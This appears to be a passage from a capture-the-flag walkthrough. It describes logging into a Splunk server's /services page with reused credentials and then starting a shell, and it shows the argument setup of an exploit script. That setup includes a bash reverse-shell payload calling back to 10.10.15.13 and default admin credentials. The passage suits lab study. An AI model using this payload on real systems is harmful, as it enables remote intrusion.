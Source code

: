 ![](../../.gitbook/assets/6-splunk-login.png)

Was able to use `shaun`'s credentials to log into `/services` page on the Splunk site.

### Getting a shell

```python
parser = argparse.ArgumentParser()
parser.add_argument('--scheme', default="https")
parser.add_argument('--host', required=True)
parser.add_argument('--port', default=8089)
parser.add_argument('--lhost', required=True)
parser.add_argument('--lport', default=8181)
parser.add_argument('--username', default="admin")
parser.add_argument('--password', default="changeme")
parser.add_argument('--payload', default="bash -c 'bash -i >& /dev/tcp/10.10.15.13/8092 0>&1'")
parser.add_argument('--payload-file', default="payload.sh")
options = parser.parse_args()
```
